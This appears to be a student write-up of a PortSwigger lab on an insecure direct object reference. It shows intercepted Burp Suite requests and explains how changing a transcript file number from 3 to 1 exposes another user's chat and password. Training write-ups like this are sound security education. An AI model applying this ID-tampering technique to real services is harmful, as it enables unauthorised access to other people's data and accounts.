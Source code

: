 DEMO VIDEO: https://drive.google.com/drive/folders/1fRn__sgbEjkxFmi94SlCWaPlWWOESOKV?usp=sharing


In this demo video, we will be able to see how we have implemented the IDOR vulnerability using the Portswigger lab. Initially, we are to bypass the authentication of a user but we do not have his login credentials. However, we do know that his username is Carlos. In order to extract this information, we click on the Live Chat option and start chatting. 

Simultaneoulsy, we turn on the proxy and connect to Burpsuite (Instructions on how to install Burpsuite are listed on the BurpSuite Installation file from the main menu). Once we are connected to Burpsuite, we turn on the Intercept and capture the live data from the website and monitor the traffic accordingly. 

Next, we converse a bit with the automated agent on the site and click on "View Transcript". This as well is captured on BurpSuite. The following can be seen on the Burpsuite tab before the chat is initiated:

GET /chat HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Te: trailers

Connection: close


Once the Live Chat is initiated, the following is captured:

GET /academyLabHeader HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: /

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Sec-WebSocket-Version: 13

Origin: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Sec-WebSocket-Key: CXXIpKR8C4joiI8aLp8w9A==

Connection: keep-alive, Upgrade

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

Pragma: no-cache

Cache-Control: no-cache

Upgrade: websocket


On analysis, we can see that a simple GET method is used to capture data and whatever is entered in the field is simply returned. This is where our exploitation comes to light. On clicking Forward, the requests are passed and we move to the next steps. Now, to get hold of the password of the user, we need to understand that at some point, the automated agent has confirmed with the user that the password is so and so. For us to know what this is, we simply change the following:


From: GET /download-transcript/3.txt HTTP/1.1
To: GET /download-transcript/1.txt HTTP/1.1

Once these changes are made, we simply have to click on the Forward button to bypass the requests and finally reach the point where the transcript is available for download. Post downloading of the new "1.txt" file, we open it to find the "confidential" conversation between the two to find out what Carlos' password is. 

The extracted password is simply copy pasted into the login page and voila, we have now exlpoited the vulnerability without much work. 


